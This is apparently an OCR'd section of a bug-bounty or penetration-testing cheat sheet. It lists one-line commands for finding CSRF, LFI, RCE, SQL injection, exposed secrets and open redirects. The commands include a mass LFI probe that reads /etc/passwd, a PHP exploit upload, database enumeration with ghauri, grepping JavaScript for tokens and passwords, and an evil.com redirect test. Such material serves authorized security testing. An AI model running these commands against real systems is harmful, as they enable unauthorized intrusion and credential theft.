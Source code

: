 
## Vulnerability Testing

> Look for login forms, parameterized URLs, APIs, search fields, etc.

#### High-Priority Vulnerabilities

**CSRF Testing**

```bash
cat live_websites.txt | gf csrf | tee csrf_endpoints.txt
```

**LFI Testing**

```bash
cat live_websites.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I@ curl -s @ | grep "root:x:" > lfi_results.txt
```

**RCE Testing**

```bash
curl -X POST -F "file=@exploit.php" https://target.com/upload
```

**SQLi Testing**

```bash
ghauri -u "https://target.com?id=1" --dbs --batch
```

**Sensitive Data Search**

```bash
cat js_files.txt | grep -Ei "key|token|auth|password" > sensitive_data.txt
```

**Open Redirect Test**

```bash
cat urls.txt | grep "=http" | qsreplace "https://evil.com" | xargs -I@ curl -I -s @ | grep "evil.com"
```

### HTTP PoC

#### curl

```bash
curl -i -H 'Authorization: Bearer <token>' https://<host>/api/v1/me
```

#### HTTPie

```bash
http GET https://<host>/api/v1/me Authorization:'Bearer <token>'
```

#### Burp Suite (Repeater/Intruder)
